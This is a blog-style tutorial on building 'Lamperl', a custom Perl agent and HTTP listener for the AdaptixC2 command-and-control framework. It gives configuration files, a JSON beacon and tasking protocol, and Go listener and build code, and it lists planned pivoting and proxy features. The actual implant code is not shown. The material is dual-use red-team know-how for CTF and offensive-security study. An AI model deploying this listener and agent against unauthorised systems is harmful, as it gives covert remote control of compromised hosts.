








A while ago I stumbled across a blog post detailing the creation of the PaperShell agent and was immediately inspired to build my own custom C2 agent.

[https://teletype.in/@magnummalum/adaptixc2-create-agent](https://teletype.in/@magnummalum/adaptixc2-create-agent)

[https://github.com/ArturLukianov/PaperShell](https://github.com/ArturLukianov/PaperShell)

[https://github.com/Adaptix-Framework/AdaptixC2](https://github.com/Adaptix-Framework/AdaptixC2)

And so Perlyite was born, a Linux agent written in Perl. I chose Perl for its ubiquity on Linux systems, it's installed by default on every major and most minor distributions. During the initial planning phase I outlined several core requirements.

First, since I regularly participate in CTFs, a socks proxy (which allows tunneling traffic through the compromised host) is essential. Similarly, `lportfwd` and `rportfwd` (local and remote port forwarding capabilities for network pivoting) are also necessary. I had also previously experimented with loading binaries into memory using memfd (a Linux feature for creating in-memory file descriptors) and Python, so incorporating that feature was high on the list.

While I did succeed in meeting these goals, I was ultimately unsatisfied with the result and have decided to start fresh.

## Project Goals

This brings us to Lamperl. The main objective here is to create a custom Adaptix agent in Perl while thoroughly documenting the entire development process. This time around, I want to take advantage of as many features Adaptix supports as is practical:

- Socks proxy
- Rportfwd
- Lportfwd
- Upload
- Download
- Job/Task handling
- Process viewer
- Filesystem viewer

And maybe:
- Remote terminal

For this first blog post, we're going to construct the listener infrastructure and build a basic functional agent.

## Setting Up the Project Structure

Begin by cloning the Adaptix template repository and following the setup instructions in the readme:

[Adaptix-Framework/templates-extender](https://github.com/Adaptix-Framework/templates-extender)

This project is named `Lamperl` (a portmanteau of "Lamprey" and "Perl"), so all my naming conventions reflect that. Below are the configuration files for both the listener and agent components:

**Listener config.json:**
```json
{
  "extender_type": "listener",
  "extender_file": "lamperl_http.so",
  "ax_file": "ax_config.axs",

  "listener_name": "LamperlHTTP",
  "listener_type": "external",
  "protocol": "http"
}
```

**Agent config.json:**
```json
{
  "extender_type": "agent",
  "extender_file": "lamperl_agent.so",
  "ax_file": "ax_config.axs",

  "agent_name": "Lamperl",
  "agent_watermark": "6c616d70",
  "listeners": [ "LamperlHTTP"]
}
```

**Important notes:** The listener name must match exactly between both configuration files, and the agent watermark characters must be lowercase hexadecimal. The watermark serves as a unique identifier for this agent type within the C2 infrastructure, allowing the teamserver to distinguish between different agent families.

Since we're building an HTTP listener, we'll need to create a `pl_http.go` file to handle the protocol implementation. The final project structure should look like this:

```
Lamperl/
├── lamperl_agent/
│   ├── config.json
│   ├── ax_config.axs
│   ├── pl_main.go
│   ├── pl_agent.go
│   ├── go.mod
│   ├── Makefile
│   └── src_lamperl/
│       └── lamperl.pl
└── lamperl_listener_http/
    ├── config.json
    ├── ax_config.axs
    ├── pl_main.go
    ├── pl_listener.go
    ├── pl_http.go
    ├── go.mod
    └── Makefile
```

### Dependency Management

For the listener to be loaded correctly by the Adaptix server, you need to specify the correct library versions. Copy the contents of `go.mod` from any original Adaptix listener (such as `beacon_listener_http`) and insert it into your project. In my case, the dependencies were:

```go
go 1.24.4

require (
	github.com/Adaptix-Framework/axc2 v0.9.0
	github.com/gin-gonic/gin v1.11.0
)

require (
	github.com/bytedance/gopkg v0.1.3 // indirect
	github.com/bytedance/sonic v1.14.1 // indirect
	github.com/bytedance/sonic/loader v0.3.0 // indirect
	github.com/cloudwego/base64x v0.1.6 // indirect
	github.com/gabriel-vasile/mimetype v1.4.10 // indirect
	github.com/gin-contrib/sse v1.1.0 // indirect
	github.com/go-playground/locales v0.14.1 // indirect
	github.com/go-playground/universal-translator v0.18.1 // indirect
	github.com/go-playground/validator/v10 v10.27.0 // indirect
	github.com/goccy/go-json v0.10.5 // indirect
	github.com/goccy/go-yaml v1.18.0 // indirect
	github.com/json-iterator/go v1.1.12 // indirect
	github.com/klauspost/cpuid/v2 v2.3.0 // indirect
	github.com/leodido/go-urn v1.4.0 // indirect
	github.com/mattn/go-isatty v0.0.20 // indirect
	github.com/modern-go/concurrent v0.0.0-20180306012644-bacd9c7ef1dd // indirect
	github.com/modern-go/reflect2 v1.0.2 // indirect
	github.com/pelletier/go-toml/v2 v2.2.4 // indirect
	github.com/quic-go/qpack v0.5.1 // indirect
	github.com/quic-go/quic-go v0.54.1 // indirect
	github.com/twitchyliquid64/golang-asm v0.15.1 // indirect
	github.com/ugorji/go/codec v1.3.0 // indirect
	go.uber.org/mock v0.6.0 // indirect
	golang.org/x/arch v0.21.0 // indirect
	golang.org/x/crypto v0.42.0 // indirect
	golang.org/x/mod v0.28.0 // indirect
	golang.org/x/net v0.44.0 // indirect
	golang.org/x/sync v0.17.0 // indirect
	golang.org/x/sys v0.36.0 // indirect
	golang.org/x/text v0.29.0 // indirect
	golang.org/x/tools v0.37.0 // indirect
	google.golang.org/protobuf v1.36.10 // indirect
)
```

After adding the `go.mod` file, load the modules:
```sh
go mod tidy
```

Next, we need to tell Adaptix to load our extension.

Edit `AdaptixC2/profile.json` and add:
```json
"extenders": [
    "extenders/lamperl_listener_http/config.json",
    "extenders/lamperl_agent/config.json"
]
```

Once the extension is compiled copy the `lamperl_listener_http/dist` folder to `AdaptixC2/extenders/lamperl_listener_http`.

Likewise for the `lamperl_agent/dist` folder, copy it to `AdaptixC2/extenders/lamperl_agent`

## Designing the Communication Protocol

With the base structure in place, it's time to design how the agent will communicate with the listener. I've chosen JSON for the communication protocol since it's human-readable and easy to debug. Below are examples of the message formats we'll be using:

**Initial Contact:**
```json
{
  "beat": "6c616d70432620e651",
  "init": {
    "domain": "",
    "hostname": "Strike",
    "internal_ip": "192.168.50.138",
    "jitter": 10,
    "pid": 118585,
    "process": "generated.pl",
    "sleep": 5,
    "username": "trigger"
  }
}
```

The `beat` field is a concatenation of the 8-character agent watermark and a 10-character randomly generated agent ID, creating an 18-character unique identifier for this agent instance.

**Heartbeat:**
```json
{
  "beat":"6c616d70a263098250"
}
```

**Task:**
```json
{
  "tasks":[
    {
      "command":"pwd",
      "task_id":"03dd5c23"
    }
  ]
}
```

**Response:**
```json
{
  "results": [
    {
      "output": "{\"path\":\"/home/trigger/Lamperl/lamperl_agent/src_lamperl\",\"command\":\"pwd\"}",
      "task_id": "917128a0"
    }
  ],
  "beat": "6c616d70a263098250"
}
```

## Building the Listener

### pl_listener.go

Let's start with the `HandlerListenerValid` function in `pl_listener.go`. This function acts as a gatekeeper for listener creation. It validates the JSON configuration submitted through the UI, checks required fields and basic semantics, and returns clear errors when submissions are invalid.

```go
// HandlerListenerValid validates listener configuration before creation.
// Called by Adaptix when user submits the listener creation form.
// Checks that all required fields are present and valid.
// Returns error if validation fails, nil if configuration is valid.
func (m *ModuleExtender) HandlerListenerValid(data string) error {

	/// START CODE HERE

	var conf HTTPConfig
	err := json.Unmarshal([]byte(data), &conf)
	if err != nil {
		return err
	}

	if conf.HostBind == "" {
		return errors.New("host_bind is required")
	}

	if conf.PortBind < 1 || conf.PortBind > 65535 {
		return errors.New("port_bind must be in range 1-65535")
	}

	if conf.CallbackAddress == "" {
		return errors.New("callback_address is required")
	}

	if conf.ApiPath == "" {
		return errors.New("api_path is required")
	}

	/// END CODE

	return nil
}
```

This validation step prevents malformed or incomplete configurations from reaching runtime, catching issues early in the deployment process.

### listener ax_config.axs

With validation in place, we can now build the `ax_config.axs` file, which defines the UI form that operators will use to configure new listeners:

```go
function ListenerUI(mode_create)
{
    // Host selector
    let labelHost = form.create_label("Host & port (Bind):");
    let comboHostBind = form.create_combo();
    comboHostBind.setEnabled(mode_create)
    comboHostBind.clear();
    let addrs = ax.interfaces();
    for (let item of addrs) { comboHostBind.addItem(item); }

    // Port selector
    let spinPortBind = form.create_spin();
    spinPortBind.setRange(1, 65535);
    spinPortBind.setValue(8080);
    spinPortBind.setEnabled(mode_create)

    // Callback selector
    let labelCallback = form.create_label("Callback address:");
    let textCallback = form.create_textline();
    textCallback.setPlaceholder("192.168.1.1:8080");

    // API path selector
    let labelApiPath = form.create_label("API path:");
    let textApiPath = form.create_textline();
    textApiPath.setPlaceholder("/api/v2/query");

    // Build container
    let container = form.create_container();
    container.put("host_bind", comboHostBind);
    container.put("port_bind", spinPortBind);
    container.put("callback_address", textCallback);
    container.put("api_path", textApiPath);

    // Add layout and spacers
    let layout = form.create_gridlayout();
    let spacer1 = form.create_vspacer();
    let spacer2 = form.create_vspacer();

    // Add widgets to the layout
    layout.addWidget(spacer1, 0, 0, 1, 2);

    layout.addWidget(labelHost, 1, 0, 1, 2);
    layout.addWidget(comboHostBind, 2, 0, 1, 1);
    layout.addWidget(spinPortBind, 2, 1, 1, 1);

    layout.addWidget(labelCallback, 3, 0, 1, 2);
    layout.addWidget(textCallback, 4, 0, 1, 2);

    layout.addWidget(labelApiPath, 5, 0, 1, 2);
    layout.addWidget(textApiPath, 6, 0, 1, 2);

    layout.addWidget(spacer2, 7, 0, 1, 2);

    let panel = form.create_panel();
    panel.setLayout(layout);

    return {
        ui_panel: panel,
        ui_container: container
    }
}
```

This creates a form that collects four essential values from the operator: `host_bind`, `port_bind`, `callback_address`, and `api_path`. The resulting UI looks like this:



### Back to pl_listener.go

Now we implement `HandlerCreateListenerDataAndStart`, which initializes, starts, and registers a new HTTP listener instance from the UI-provided JSON configuration. This function returns both the metadata for Adaptix to display and the persistent configuration for future restarts.

```go
// HandlerCreateListenerDataAndStart creates and starts a new listener instance.
// This is the main initialization function called when a listener is created.
// Parameters:
//   - name: Unique identifier for this listener instance
//   - configData: JSON-encoded configuration from the UI
//   - listenerCustomData: Optional custom data from previous session (unused)
//
// Returns:
//   - ListenerData: Metadata for Adaptix UI (bind address, port, status)
//   - customData: Serialized config to persist across restarts
//   - listenerObject: The actual HTTP server instance
//   - error: If initialization or startup fails
func (m *ModuleExtender) HandlerCreateListenerDataAndStart(name string, configData string, listenerCustomData []byte) (adaptix.ListenerData, []byte, any, error) {
	var (
		listenerData adaptix.ListenerData
		customdData  []byte
	)

	/// START CODE HERE

	var (
		listener *HTTP
		conf     HTTPConfig
		err      error
	)

	err = json.Unmarshal([]byte(configData), &conf)
	if err != nil {
		return listenerData, customdData, nil, err
	}

	listener = &HTTP{
		Config: conf,
		Name:   name,
		Active: false,
	}

	err = listener.Start(ModuleObject.ts)
	if err != nil {
		return listenerData, customdData, nil, err
	}

	listenerData = adaptix.ListenerData{
		BindHost:  conf.HostBind,
		BindPort:  fmt.Sprintf("%d", conf.PortBind),
		AgentAddr: conf.CallbackAddress,
		Status:    "Listen",
	}

	// Save config to customData
	var buffer bytes.Buffer
	err = json.NewEncoder(&buffer).Encode(conf)
	if err != nil {
		return listenerData, customdData, nil, err
	}
	customdData = buffer.Bytes()

	/// END CODE

	return listenerData, customdData, listener, nil
}
```

The execution flow is straightforward:
1. Unmarshal `configData` into an `HTTPConfig` struct
2. Construct an HTTP listener object with the provided name and configuration
3. Call `listener.Start(ModuleObject.ts)` to bind and start the server
4. Build `adaptix.ListenerData` with bind address, port, agent callback address, and status
5. Encode the configuration back to bytes (`customData`) for persistence across restarts
6. Return all components along with any encountered errors

Next, we implement `HandlerListenerStop` to gracefully tear down running listeners:

```go
// HandlerListenerStop gracefully shuts down a running listener.
// Called when user stops a listener from the Adaptix UI.
// Parameters:
//   - name: Listener identifier (unused in this implementation)
//   - listenerObject: The HTTP server instance to stop
//
// Returns: true if stopped successfully, false and error otherwise
func (m *ModuleExtender) HandlerListenerStop(name string, listenerObject any) (bool, error) {
	var (
		err error = nil
		ok  bool  = false
	)

	/// START CODE HERE

	listener, valid := listenerObject.(*HTTP)
	if !valid {
		return false, errors.New("invalid listener object")
	}

	err = listener.Stop()
	if err != nil {
		return false, err
	}

	ok = true

	/// END CODE

	return ok, err
}
```

This implementation mirrors the beacon agent's approach exactly and works perfectly for our use case.

The `HandlerListenerGetProfile` function returns the listener's current configuration in JSON format to the Adaptix UI, used when displaying listener details or populating agent generation options:

```go
// HandlerListenerGetProfile returns the listener's current configuration.
// Called when displaying listener details or populating agent generation dropdowns.
// Parameters:
//   - name: Listener identifier to retrieve config for
//   - listenerObject: The HTTP server instance
//
// Returns: JSON-encoded configuration and true if successful
func (m *ModuleExtender) HandlerListenerGetProfile(name string, listenerObject any) ([]byte, bool) {
	var (
		object bytes.Buffer
		ok     bool = false
	)

	/// START CODE HERE

	listener, valid := listenerObject.(*HTTP)
	if !valid || listener.Name != name {
		return object.Bytes(), false
	}

	_ = json.NewEncoder(&object).Encode(listener.Config)
	ok = true

	/// END CODE

	return object.Bytes(), ok
}
```

Again, this is a copy of the beacon agent's implementation.

We're skipping over `HandlerEditListenerData` for now, our current agent won't be complex enough to benefit from runtime configuration changes:

```go
// HandlerEditListenerData updates an existing listener's configuration.
// Currently unimplemented - listener must be stopped and recreated to change config.
func (m *ModuleExtender) HandlerEditListenerData(name string, listenerObject any, configData string) (adaptix.ListenerData, []byte, bool) {
	var (
		listenerData adaptix.ListenerData
		customdData  []byte
		ok           bool = false
	)

	/// START CODE HERE

	/// END CODE

	return listenerData, customdData, ok
}
```

## Building the HTTP Protocol Handler

### pl_http.go

With `pl_listener.go` complete, we move on to `pl_http.go`, where we implement the actual HTTP protocol handling. First, we define the data structures:

```go
// HTTPConfig holds configuration for the HTTP listener.
// These values come from the UI form defined in ax_config.axs.
type HTTPConfig struct {
	HostBind        string `json:"host_bind"`
	PortBind        int    `json:"port_bind"`
	CallbackAddress string `json:"callback_address"`
	ApiPath         string `json:"api_path"`
}

// HTTP represents an HTTP listener instance.
// Manages the Gin web server and handles agent communication.
type HTTP struct {
	GinEngine *gin.Engine
	Server    *http.Server
	Config    HTTPConfig
	Name      string
	Active    bool
}

// AgentRequest represents the JSON structure sent by agents.
// Beat: 18-char string (8-char watermark + 10-char agent ID)
// Init: System information sent only on first check-in
// Results: Array of task execution results from previous beacon
type AgentRequest struct {
	Beat    string                   `json:"beat"`
	Init    map[string]interface{}   `json:"init,omitempty"`
	Results []map[string]interface{} `json:"results,omitempty"`
}
```

The `HTTPConfig` struct holds the same values we defined in the validation function and UI form. The `HTTP` struct represents a running listener instance, and `AgentRequest` defines the structure of incoming agent messages.

The `Start` function initializes the Gin router, registers API endpoints, creates the HTTP server, and launches it in a non-blocking goroutine:

```go
// Start initializes and launches the HTTP server.
// Creates a Gin router, registers the API endpoint, and starts listening.
// The server runs in a goroutine to avoid blocking.
func (handler *HTTP) Start(ts Teamserver) error {
	gin.SetMode(gin.ReleaseMode)
	router := gin.New()

	// Register the API endpoint
	router.POST(handler.Config.ApiPath, func(c *gin.Context) {
		handler.processRequest(c, ts)
	})

	handler.Active = true
	handler.Server = &http.Server{
		Addr:    fmt.Sprintf("%s:%d", handler.Config.HostBind, handler.Config.PortBind),
		Handler: router,
	}

	fmt.Printf("[Lamperl_Listener] Started listener: http://%s:%d%s\n",
		handler.Config.HostBind, handler.Config.PortBind, handler.Config.ApiPath)

	go func() {
		err := handler.Server.ListenAndServe()
		if err != nil && !errors.Is(err, http.ErrServerClosed) {
			fmt.Printf("Error starting HTTP server: %v\n", err)
			return
		}
	}()

	time.Sleep(500 * time.Millisecond)
	return nil
}
```

The corresponding `Stop` function performs a graceful shutdown:

```go
// Stop gracefully shuts down the HTTP server.
// Waits up to 3 seconds for existing connections to complete.
func (handler *HTTP) Stop() error {
	ctx, cancel := context.WithTimeout(context.Background(), 3*time.Second)
	defer cancel()
	return handler.Server.Shutdown(ctx)
}
```

The heart of the listener is the `processRequest` function, which handles all incoming agent beacons, initial check-ins, and result exchanges:

```go
// processRequest handles incoming agent beacons.
// This is the core request handler that:
//  1. Parses the JSON request to extract beat, init data, and results
//  2. Creates new agents on first check-in
//  3. Processes task results from the agent
//  4. Returns pending tasks for the agent to execute
func (handler *HTTP) processRequest(ctx *gin.Context, ts Teamserver) {
	var (
		externalIP   string
		agentType    string
		agentId      string
		beat         []byte
		bodyData     []byte
		responseData []byte
		err          error
	)

	fmt.Printf("[LISTENER] Received request from %s to %s\n", ctx.Request.RemoteAddr, ctx.Request.URL.Path)
	fmt.Printf("[LISTENER] Method: %s, Content-Type: %s\n", ctx.Request.Method, ctx.Request.Header.Get("Content-Type"))

	// Get agent's IP
	externalIP = strings.Split(ctx.Request.RemoteAddr, ":")[0]

	// Parse the request
	agentType, agentId, beat, bodyData, err = handler.parseRequest(ctx)
	if err != nil {
		fmt.Printf("[LISTENER ERROR] Failed to parse request: %v\n", err)
		ctx.Writer.WriteHeader(http.StatusNotFound)
		return
	}

	fmt.Printf("[LISTENER] Parsed - AgentType: %s, AgentID: %s, Beat len: %d, Body len: %d\n",
		agentType, agentId, len(beat), len(bodyData))

	// Create agent if doesn't exist
	if !ModuleObject.ts.TsAgentIsExists(agentId) {
		fmt.Printf("[LISTENER] Creating new agent: %s\n", agentId)
		_, err = ModuleObject.ts.TsAgentCreate(agentType, agentId, beat, handler.Name, externalIP, true)
		if err != nil {
			fmt.Printf("[LISTENER ERROR] Failed to create agent: %v\n", err)
			ctx.Writer.WriteHeader(http.StatusNotFound)
			return
		}
		fmt.Printf("[LISTENER] Agent created successfully\n")
	} else {
		fmt.Printf("[LISTENER] Agent %s already exists\n", agentId)
	}

	// Update agent's last check-in time
	_ = ModuleObject.ts.TsAgentSetTick(agentId)

	// Process agent data (task results)
	fmt.Printf("[LISTENER] Processing agent data...\n")
	_ = ModuleObject.ts.TsAgentProcessData(agentId, bodyData)

	// Get tasks for agent
	fmt.Printf("[LISTENER] Getting tasks for agent...\n")
	responseData, err = ModuleObject.ts.TsAgentGetHostedAll(agentId, 0x1900000) // 25 MB
	if err != nil {
		fmt.Printf("[LISTENER ERROR] Failed to get tasks: %v\n", err)
		ctx.Writer.WriteHeader(http.StatusNotFound)
		return
	}

	fmt.Printf("[LISTENER] Sending response: %d bytes\n", len(responseData))

	// Send response
	ctx.Writer.Header().Set("Content-Type", "application/json")
	_, err = ctx.Writer.Write(responseData)
	if err != nil {
		fmt.Printf("[LISTENER ERROR] Failed to write response: %v\n", err)
		ctx.Writer.WriteHeader(http.StatusNotFound)
		return
	}

	ctx.AbortWithStatus(http.StatusOK)
	fmt.Printf("[LISTENER] Request completed successfully\n")
}
```

This function orchestrates the entire request/response cycle:
1. Logs request metadata and extracts the client IP
2. Calls `parseRequest` to validate and extract the watermark, agent ID, beat/init data, and body
3. Creates a new agent on first check-in (if not already present) and updates its last-seen timestamp
4. Processes inbound agent data (task results)
5. Queries the teamserver for pending tasks
6. Writes the JSON response back to the agent

Finally, we implement `parseRequest` to handle the parsing and normalization of incoming agent POST payloads:

```go
// parseRequest extracts and validates data from an agent's HTTP request.
// Parses the JSON body and separates the beat into watermark and agent ID.
// Returns:
//   - watermark: 8-character hex identifier for agent type
//   - agentId: 10-character hex unique agent instance ID
//   - beat: Initial check-in data (JSON) or empty for regular beacons
//   - bodyData: Task results (JSON) or empty array
//   - error: If parsing fails or format is invalid
func (handler *HTTP) parseRequest(ctx *gin.Context) (string, string, []byte, []byte, error) {
	// Read POST body
	bodyData, err := io.ReadAll(ctx.Request.Body)
	if err != nil {
		return "", "", nil, nil, fmt.Errorf("failed to read request body: %v", err)
	}

	fmt.Printf("[PARSE] Raw body (%d bytes): %s\n", len(bodyData), string(bodyData))

	// Parse JSON
	var req AgentRequest
	err = json.Unmarshal(bodyData, &req)
	if err != nil {
		return "", "", nil, nil, fmt.Errorf("failed to parse JSON: %v", err)
	}

	fmt.Printf("[PARSE] Beat from JSON: %s (len=%d)\n", req.Beat, len(req.Beat))

	// Parse beat: watermark (8 hex chars) + agent_id (10 hex chars) = 18 chars total
	if len(req.Beat) != 18 {
		return "", "", nil, nil, fmt.Errorf("invalid beat format: expected 18 chars, got %d", len(req.Beat))
	}

	watermark := req.Beat[:8]
	agentIdHex := req.Beat[8:]

	// The "beat" parameter is what gets passed to CreateAgent - it should be the init data for first checkin
	var beat []byte
	var agentData []byte

	if req.Init != nil {
		// Initial check-in - encode init data as JSON for both beat and agentData
		beat, err = json.Marshal(req.Init)
		if err != nil {
			return "", "", nil, nil, errors.New("failed to encode init data")
		}
		agentData = beat // Same data for initial checkin
	} else if req.Results != nil {
		// Regular beacon - encode results as JSON
		beat = []byte{} // Empty beat for regular checkins
		agentData, err = json.Marshal(req.Results)
		if err != nil {
			return "", "", nil, nil, errors.New("failed to encode results")
		}
	} else {
		// Empty beacon
		beat = []byte{}
		agentData = []byte("[]")
	}

	return watermark, agentIdHex, beat, agentData, nil
}
```
The parsing flow handles three distinct cases:
1. Read the entire POST body
2. Unmarshal into `AgentRequest`
3. Validate beat length (18 characters: 8-char watermark + 10-char agent ID)
4. If `Init` is present: marshal it to both `beat` and `agentData` (initial check-in)
5. If `Results` is present: marshal to `agentData` with empty `beat` (regular check-in)
6. If neither is present: return empty `beat` and `[]` as `agentData` (empty beacon)

The listener is complete for now, we can make it by running `make` in the `lamperl_listener_http` directory. The next step is to build out the agent module.

## Building the Agent Module

### pl_agent.go

With the listener infrastructure complete, we can now focus on the agent module. First, let's define some helper functions for extracting values from maps:

```go
// getString is a helper function to safely extract string values from a map.
// Returns empty string if key doesn't exist or value is not a string.
func getString(m map[string]interface{}, key string) string {
	if val, ok := m[key].(string); ok {
		return val
	}
	return ""
}

// getInt is a helper function to safely extract integer values from a map.
// Handles both float64 (JSON default for numbers) and int types.
// Returns 0 if key doesn't exist or value cannot be converted.
func getInt(m map[string]interface{}, key string) int {
	if val, ok := m[key].(float64); ok {
		return int(val)
	}
	if val, ok := m[key].(int); ok {
		return val
	}
	return 0
}
```

Next, we implement `AgentGenerateProfile`, which extracts listener configuration needed during agent generation:

```go
// GenerateConfig holds configuration data for agent generation.
// Currently empty as agent_id is generated at runtime by the agent itself,
// not during the build process. This ensures each agent instance has a unique ID.
type GenerateConfig struct {
}

// AgentGenerateProfile extracts listener configuration needed for agent generation.
// This function is called during agent build to gather connection parameters.
// Parameters:
//   - agentConfig: JSON string with agent-specific configuration (currently unused)
//   - listenerWM: Listener watermark (currently unused)
//   - listenerMap: Map containing listener configuration (callback_address, api_path, etc.)
//
// Returns: JSON-encoded profile data containing callback_addr and api_path
func AgentGenerateProfile(agentConfig string, listenerWM string, listenerMap map[string]any) ([]byte, error) {
	var (
		generateConfig GenerateConfig
		err            error
	)

	err = json.Unmarshal([]byte(agentConfig), &generateConfig)
	if err != nil {
		return nil, err
	}

	/// START CODE HERE

	// Extract callback address and API path from listener
	callbackAddr, ok := listenerMap["callback_address"].(string)
	if !ok {
		return nil, errors.New("callback_address not found in listener map")
	}

	apiPath, ok := listenerMap["api_path"].(string)
	if !ok {
		return nil, errors.New("api_path not found in listener map")
	}

	// Agent generates its own ID at runtime - no need to include in profile
	profileData := map[string]string{
		"callback_addr": callbackAddr,
		"api_path":      apiPath,
	}

	profileBytes, err := json.Marshal(profileData)
	if err != nil {
		return nil, err
	}

	/// END CODE HERE

	return profileBytes, nil
}
```

This function unmarshals the agent config, extracts `callback_address` and `api_path` from the listener map, and packages them into a JSON profile for use during agent building.

The `AgentGenerateBuild` function creates a deployable agent by replacing placeholders in the Perl template with actual configuration values:

```go
// AgentGenerateBuild creates a deployable agent by replacing placeholders in the template.
// This function reads the Perl agent template and injects configuration values.
// Parameters:
//   - agentConfig: JSON string with agent-specific configuration
//   - agentProfile: JSON-encoded profile data from AgentGenerateProfile
//   - listenerMap: Map containing listener configuration
//
// Returns:
//   - Agent file content (Perl script with placeholders replaced)
//   - Filename for the generated agent
//   - Error if any step fails
func AgentGenerateBuild(agentConfig string, agentProfile []byte, listenerMap map[string]any) ([]byte, string, error) {
	var (
		Filename     string
		buildContent []byte
	)

	/// START CODE HERE

	// Parse profile
	var profile map[string]string
	err := json.Unmarshal(agentProfile, &profile)
	if err != nil {
		return nil, "", err
	}

	callbackAddr := profile["callback_addr"]
	apiPath := profile["api_path"]

	// Parse callback address
	host, port, err := net.SplitHostPort(strings.TrimPrefix(strings.TrimPrefix(callbackAddr, "http://"), "https://"))
	if err != nil {
		return nil, "", fmt.Errorf("invalid callback address: %v", err)
	}

	// Read agent template
	currentDir := ModuleDir
	Filename = "lamperl.pl"

	agentContentBytes, err := os.ReadFile(currentDir + "/src_lamperl/lamperl.pl")
	if err != nil {
		return nil, "", err
	}

	agentContent := string(agentContentBytes)

	// Replace placeholders (agent generates its own ID at runtime)
	agentContent = strings.ReplaceAll(agentContent, "<CALLBACK_HOST>", host)
	agentContent = strings.ReplaceAll(agentContent, "<CALLBACK_PORT>", port)
	agentContent = strings.ReplaceAll(agentContent, "<CALLBACK_PATH>", apiPath)
	agentContent = strings.ReplaceAll(agentContent, "<WATERMARK>", AgentWatermark)

	buildContent = []byte(agentContent)

	/// END CODE HERE

	return buildContent, Filename, nil
}
```

This is the function that actually builds the agent when we select "Generate" from the context menu. It:
- Parses `agentProfile` to extract `callback_addr` and `api_path`
- Splits the callback address into host and port components
- Reads the Perl template from `src_lamperl/lamperl.pl`
